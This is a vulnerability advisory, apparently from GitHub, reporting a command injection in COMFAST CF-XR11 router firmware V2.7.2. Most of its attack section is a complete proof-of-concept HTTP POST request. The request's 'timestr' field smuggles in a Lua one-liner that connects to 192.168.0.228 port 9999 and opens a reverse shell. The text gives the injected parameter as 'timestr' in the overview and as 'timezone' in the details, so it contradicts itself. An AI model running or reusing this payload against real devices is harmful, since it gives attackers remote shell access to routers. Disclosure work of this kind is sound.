




# CVE-ID

none

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_4143F0`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `timestr` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ntp_timezone`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.



# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_4143F0`, the program uses function `blobmsg_parse` to obtain the content of parameter `timestr`, `timezone`,`zonename` ,`hostname`,`ntp_client_enabled`,`ntp_enable_server` and `ntp_servername` which are sent by `POST` request. On line 29, the attacker can complete command execution by controlling the `timezone` variable.



# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=ntp_timezone` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
Host: 192.168.0.1
Content-Length: 298
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-00000000
Connection: close

{"timestr":"2021-10-10 10:10:10\" && echo \"`lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`",	"timezone":"0","zonename": "0","hostname": "0","ntp_client_enabled":"0","ntp_enable_server":"0","ntp_servername":"0"}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.





